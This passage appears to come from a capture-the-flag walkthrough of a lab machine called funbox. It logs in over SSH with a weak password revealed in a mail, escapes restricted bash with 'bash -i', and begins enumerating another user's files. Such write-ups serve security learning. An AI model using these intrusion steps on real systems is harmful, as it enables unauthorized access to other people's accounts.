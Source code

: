 ```
Hi Joe, please tell funny the backupscript is done.

From root@funbox  Fri Jun 19 13:15:21 2020
Return-Path: <root@funbox>
X-Original-To: joe@funbox
Delivered-To: joe@funbox
Received: by funbox.fritz.box (Postfix, from userid 0)
	id 8E2D4446B0; Fri, 19 Jun 2020 13:15:21 +0000 (UTC)
Subject: Backups
To: <joe@funbox>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20200619131521.8E2D4446B0@funbox.fritz.box>
Date: Fri, 19 Jun 2020 13:15:21 +0000 (UTC)
From: root <root@funbox>

Joe, WTF!?!?!?!?!?! Change your password right now! 12345 is an recommendation to fire you.
```

trying to log in as joe with password 12345

#### SSH:

`crazyeights@es-base:~$ ssh joe@funbox.fritz.box
`

Joe is stuck in rbash:
```
joe@funbox:~$ cd /var/www/html
-rbash: cd: restricted

```

#### Breaking out of rbash:

That was easy. You can breakout by calling bash interactively:

```
joe@funbox:~$ bash -i
joe@funbox:~$ cd /var/www/html
joe@funbox:/var/www/html$ 
```

**Snooping around:**

```
joe@funbox:/var/www/html$ cd /home
joe@funbox:/home$ ls
funny  joe
joe@funbox:/home$ cd funny/
joe@funbox:/home/funny$ ls
html.tar
joe@funbox:/home/funny$ file html.tar
html.tar: POSIX tar archive (GNU)
joe@funbox:/home/funny$ tar -xvf html.tar
var/www/html/
tar: var: Cannot mkdir: Permission denied
tar: var/www/html: Cannot mkdir: No such file or directory
var/www/html/index.php
tar: var: Cannot mkdir: Permission denied
tar: var/www/html/index.php: Cannot open: No such file or directory
var/www/html/wp-cron.php
```

